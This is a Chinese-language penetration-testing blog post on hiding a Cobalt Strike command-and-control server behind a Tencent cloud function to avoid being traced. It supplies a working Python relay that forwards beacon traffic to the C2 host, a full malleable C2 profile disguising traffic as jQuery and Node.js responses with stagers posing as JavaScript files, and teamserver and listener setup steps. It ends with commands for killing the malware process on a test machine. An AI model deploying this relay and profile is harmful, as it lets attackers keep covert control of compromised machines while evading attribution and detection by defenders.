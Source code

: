 ```yaml
---
title: 利用云函数隐藏C2服务器
comments: true
date: 2022-06-14 13:41:47
tags: ["渗透测试", "防溯源", "云函数", "C2"]
categories:
- 渗透测试
cover: http://image.geoer.cn/20220614162832.png
top_img:
description:
---
```


隐藏C2服务器的手法有很多，如：
- 域前置
- CDN
- 第三方代理软件（heroku）
- 云函数

## 配置云函数
这里先介绍云函数了，
云函数的创建参考上一篇文章：http://www.xpshuai.cn/2022/06/13/%E5%88%A9%E7%94%A8%E4%BA%91%E5%87%BD%E6%95%B0%E9%9A%90%E8%97%8FWebshell%E7%9C%9F%E5%AE%9EIP/，

只是代码部分略有不同：
```python
# -*- coding: utf8 -*-
import json,requests,base64
def main_handler(event, context):
    C2='http://<C2服务器地址>' # 这里可以使用 HTTP、HTTPS~下角标~
    path=event['path']
    headers=event['headers']
    print(event)
    if event['httpMethod'] == 'GET' :
        resp=requests.get(C2+path,headers=headers,verify=False) 
    else:
        resp=requests.post(C2+path,data=event['body'],headers=headers,verify=False)
        print(resp.headers)
        print(resp.content)

    response={
        "isBase64Encoded": True,
        "statusCode": resp.status_code,
        "headers": dict(resp.headers),
        "body": str(base64.b64encode(resp.content))[2:-1]
    }
    return response


```


点击API服务名：
![20220614141805](http://image.geoer.cn/20220614141805.png)
点击编辑：
![20220614141944](http://image.geoer.cn/20220614141944.png)

路径修改为`/`，点击下一步：
![20220614142034](http://image.geoer.cn/20220614142034.png)

配置如下，点击完成：
![20220614142122](http://image.geoer.cn/20220614142122.png)



## 配置cs
### 配置CS的profile文件
```bash
set sample_name "kris_abao";

set sleeptime "3000";
set jitter    "0";
set maxdns    "255";
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36";

https-certificate 
{

    set keystore "cobaltStrike.store"; //生成的cs证书名
    set password "123456";    //自己设置的密码

    ## Option 3) Cobalt Strike Self-Signed Certificate
    set C   "US";
    set CN  "jquery.com";
    set O   "jQuery";
    set OU  "Certificate Authority";
    set validity "365";
}

http-get 
{

    set uri "/api/getit";

    client {
        header "Accept" "*/*";
        metadata {
            base64;
            prepend "SESSIONID=";
            header "Cookie";
        }
    }

    server {
        header "Content-Type" "application/ocsp-response";
        header "content-transfer-encoding" "binary";
        header "Server" "Nodejs";
        output {
            base64;
            print;
        }
    }
}
http-stager 
{  
    set uri_x86 "/vue.min.js";
    set uri_x64 "/bootstrap-2.min.js";
}
http-post {
    set uri "/api/postit";
    client {
        header "Accept" "*/*";
        id {
            base64;
            prepend "JSESSION=";
            header "Cookie";
        }
        output {
            base64;
            print;
        }
    }

    server 
    {
        header "Content-Type" "application/ocsp-response";
        header "content-transfer-encoding" "binary";
        header "Connection" "keep-alive";
        output {
            base64;
            print;
        }
    }
}


```



### 开启cs teamserver
```bash
./teamserver vpsip password c2.profile
```


**Note:**
上线地址 需要去掉`http://`和`:80`
取`service-miuk9icj-1309081727.bj.apigw.tencentcs.com`
![20220614154332](http://image.geoer.cn/20220614154332.png)



### 创建监听
![20220614154545](http://image.geoer.cn/20220614154545.png)

成功上线，可以看到外部IP第一栏是不断变化的，也就是隐藏了我们C2服务器
![20220614162832](http://image.geoer.cn/20220614162832.png)


附：
删掉测试机器上的恶意exe：
```bash
# 查找进程
tasklist /svc |findstr XXX.exe
# 根据pid杀进程
taskkill /T /F /PID 9718
# 根据进程名杀进程
 taskkill /f /t /im XXX.exe 
```

## 云函数隐藏C2原理
马er -> 腾讯云函数api -> py函数 -> CS服务端

CS马被执行后，流量直接走向腾讯云的api（也就是这一步达成了隐藏C2服务端的目的，腾讯地址，有腾讯的CDN），然后py函数会根据传入的流量作为中间人对CS服务端进行请求，并获取返回结果后返回请求获取的数据信息（py代码的请求内容和CS服务端加载的profile是相对应的，CS服务端根据py函数传入的数据来获取相关信息）
